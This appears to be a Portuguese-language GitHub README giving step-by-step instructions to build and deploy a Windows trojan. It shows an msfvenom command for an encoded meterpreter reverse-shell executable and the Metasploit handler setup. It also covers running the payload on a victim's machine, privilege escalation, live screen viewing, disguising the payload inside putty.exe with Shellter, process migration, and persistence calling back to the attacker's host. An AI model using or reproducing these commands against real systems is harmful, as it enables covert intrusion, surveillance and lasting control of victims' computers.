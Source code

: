 ![CAVALO DE TROIA](https://www.holygamerz.com/images/posts/e6141a8fecd52c3d6062cfd84c6759ac-0.jpg)
## Criação do TROJAN com EXE

Criar o executável com MSFVENOM
~~~~
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.4 lport=4444 -e x86/shikata_ga_nai -f exe -o trojan
~~~~

Abrindo metasploit para esperar a conexão.
~~~~
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.0.2.4
exploit -j
~~~~~

Executar o TROJAN no computador da vítima.

Tentar ganhar direito elevados com:
~~~~~
getprivs
~~~~~

No meterpreter executar o comando abaixo para verificar a tela em tempo real da vítima:
~~~~~
screenshare
~~~~~

--------

## Camuflando o TROJAN

Fazer o download do putty.exe.

Instalar o shellter.
~~~~~
apt install shellter
~~~~~

Instalar o wine32.
~~~~~
apt install wine32
~~~~~
Abrir o shellter e passar o caminho do putty. Em seguida selecionar o meterpreter > reverse_tcp.

--------
## Como passar para outro processo após a invasão para evitar a perda de conexão com o cavalo de Tróia
* Criar um arquivo .mc
* Editar o arquivo inserindo: run post/windows/manage/migrate
* Entrar no multi handler > payload windows/meterpreter/reverse_tcp > show advanced
* set AutoRunScript ARQUIVO.rc

--------
## Como assegurar conexão com o sistema mesmo esse sendo desligado através de uma técnica chamada persistência
No meterpreter 
~~~~~
meterprete> run persistence -h
meterprete> run persistence -U -i 5 -p 4443 -r IP_DO_KALI
~~~~~
Trocar a porta do multi/handler para 4443 e esperar as conexões.
